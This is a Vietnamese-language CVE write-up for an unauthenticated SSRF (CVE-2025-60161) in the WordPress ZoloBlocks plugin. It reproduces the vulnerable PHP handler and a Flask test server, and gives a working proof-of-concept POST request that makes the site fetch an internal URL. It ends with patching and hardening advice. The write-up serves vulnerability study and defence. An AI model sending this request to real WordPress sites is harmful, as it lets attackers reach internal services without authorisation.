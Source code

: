 ```yaml
---
title: CVE-2025-60161 Analysis & POC
description: Security Vulnerability in WordPress ZoloBlocks Plugin.
date: 2025-10-31 19:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, ssrf]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

## CVE & Basic Info
Lỗ hổng Server-Side Request Forgery (SSRF) trong BdThemes ZoloBlocks cho phép kẻ tấn công thực hiện yêu cầu giả mạo từ phía máy chủ. Sự cố này ảnh hưởng đến các phiên bản ZoloBlocks từ không xác định cho đến 2.3.11.

* **CVE ID**: [CVE-2025-60161](https://www.cve.org/CVERecord?id=CVE-2025-60161)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.3.11
* **Patched Versions**: 2.3.12
* **CVSS severity**: Low (5.4)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress ZoloBlocks Plugin](https://wordpress.org/plugins/zoloblocks/advanced/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **ZoloBlocks**: **2.3.11** (vulnerable) và **2.3.12** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

Lỗ hổng này xuất hiện trong tệp `TemplatesV1.php`, tuy nhiên tệp này đã bị loại bỏ trong phiên bản vá lỗi.

![Diff](removed.png "TemplatesV1.php đã bị loại bỏ trong bản vá")

### Vulnerable Code 
```php {title="TemplatesV1.php - v2.3.11" hl_lines=[12]}
public function demo_import() {
    // Kiểm tra tham số đầu vào từ POST
    if (!isset($_POST['json_file_url'])) {
        wp_send_json_error('No JSON file URL provided');
        return;
    }

    // Lấy và làm sạch URL người dùng cung cấp
    $json_file_url = sanitize_text_field(wp_unslash($_POST['json_file_url']));

    // Gửi yêu cầu HTTP đến URL đó
    $response = wp_remote_get($json_file_url, ['timeout' => 30]);

    // Nếu lỗi khi fetch dữ liệu, trả JSON lỗi
    if (is_wp_error($response)) {
        wp_send_json_error('Failed to fetch JSON data');
        return;
    }

    // Lấy nội dung phản hồi và giải mã JSON
    $body    = wp_remote_retrieve_body($response);
    $data    = json_decode($body, true);
    $content = $data['content'] ?? '';

    // Trả kết quả JSON thành công cùng nội dung import
    wp_send_json_success([
        'status'   => 'success',
        'message'  => __('Pattern imported successfully!', 'zoloblocks'),
        'content'  => $content,
    ]);
}
```

{{< admonition bug >}}
Hàm `demo_import()` nhận URL từ người dùng => gửi yêu cầu HTTP (`wp_remote_get`) để tải dữ liệu JSON → giải mã và trả về kết quả qua `wp_send_json_success()`.
Vì không kiểm tra hoặc giới hạn URL, nên có thể bị lợi dụng gây **SSRF**.
{{< /admonition >}}

Hàm `demo_import()` được đăng kí làm callback cho action hook:

```php
add_action('wp_ajax_nopriv_zolo_demo_import', [$this, 'demo_import']);
```

Điều này có nghĩa là:

* Hook `wp_ajax_nopriv_` được sử dụng cho **người dùng chưa đăng nhập** (anonymous users).
* Khi client gửi request AJAX đến endpoint `admin-ajax.php?action=zolo_demo_import`, WordPress sẽ gọi hàm `demo_import()`.

### Flow

{{< mermaid >}}
graph TD
A["admin-ajax.php?action=zolo_demo_import"] --> B["wp_ajax_nopriv_zolo_demo_import"]
B --> C["demo_import()"]
C --> D["sanitize_text_field()"]
D --> E["wp_remote_get(json_file_url)"]
E --> F{"is_wp_error(response)?"}
F -- Yes --> G["wp_send_json_error()"]
F -- No --> H["json_decode(body) → extract URLs"]
H --> I["wp_send_json_success()"]
{{< /mermaid >}}

## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Gửi POST request với URL trỏ đến local service:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...

action=zolo_demo_import&json_file_url=http://127.0.0.1:8001/metadata
```

**Result**:

![Result](result.png "Nội dung đọc được từ local service")

## Conclusion

CVE-2025-60161 là một SSRF trong `demo_import()` của ZoloBlocks (≤ 2.3.11) do nhận URL từ người dùng và gọi `wp_remote_get()` mà không kiểm tra. Endpoint cho phép truy cập không xác thực (`wp_ajax_nopriv_...`). Vấn đề đã được vá trong **2.3.12**.

## Key takeaways

* Nguyên nhân: không validate/whitelist URL trước khi `wp_remote_get()`.
* Ảnh hưởng: site chạy ZoloBlocks ≤ 2.3.11; attacker có thể truy vấn dịch vụ nội bộ (SSRF).
* Khắc phục nhanh: cập nhật lên **2.3.12** hoặc chặn endpoint `zolo_demo_import`.
* Phòng ngừa: whitelist/validate URL, giới hạn egress, bảo vệ AJAX bằng nonce/quyền.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress ZoloBlocks Plugin <= 2.3.11 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/zoloblocks/vulnerability/wordpress-zoloblocks-plugin-2-3-9-server-side-request-forgery-ssrf-vulnerability?_s_id=cve) 